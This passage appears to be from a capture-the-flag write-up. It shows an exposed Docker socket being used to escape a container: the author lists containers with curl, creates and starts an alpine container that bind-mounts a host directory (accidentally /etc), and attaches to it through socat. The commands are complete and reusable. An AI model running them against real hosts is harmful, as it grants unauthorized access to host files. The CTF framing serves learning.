 We find this exposed docker sock:
```
root@48fc883d6090:/var/run# ls
docker.sock  lock  motd.dynamic  mount	sshd  sshd.pid	utmp
```

Using the docker socket, and curl we can run commands such the following which lists the available containers.
```
root@48fc883d6090:/var/run# curl -XGET --unix-socket /var/run/docker.sock http://localhost/containers/json
```

With acccess to the docker socket we can create a container and mount the mast3rmind's home directory in it, to get the final flag.


First we create a config file. I am using the alpine image because it was already downloaded. We select the `Mounts` option as the directory on the host that we want to mount in the container. 

Unfortunately I wasn't paying attention when I was doing this, and accidently mounted `/etc` instead of `/home/mast3rmind` like I had intended.

```
root@48fc883d6090:/var/run# echo -e '{"Image":"alpine:edge","Cmd":["/bin/sh"],"DetachKeys":"Ctrl-p,Ctrl-q","OpenStdin":true,"Mounts":[{"Type":"bind","Source":"/etc/","Target":"/mhome"}]}' > container.json
```
We create a container using the config file just created:
```
root@48fc883d6090:/var/run# curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d "$(cat container.json)" http://localhost/containers/create
{"Id":"1d09913a50ce76374312922a9035fd20c93590b00d60f07fc7423c8dfcd0bdee","Warnings":[]}
```
We start the container:
```
root@48fc883d6090:/var/run# curl -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/1d09/start
```
We use socat to communicate with our container:
```
root@48fc883d6090:/var/run# socat - UNIX-CONNECT:/var/run/docker.sock
POST /containers/1d09/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
Host:
Connection: Upgrade
Upgrade: tcp

HTTP/1.1 101 UPGRADED
Content-Type: application/vnd.docker.raw-stream
Connection: Upgrade
Upgrade: tcp
```

We could see that the folder had been mounted:
```
cd /
ls
bin
Odev
etc
home
lib
media
mhome     <---
mnt
```
But looking inside, I realized I had accidently mounted `/etc/`
```
cd mhome
ls
```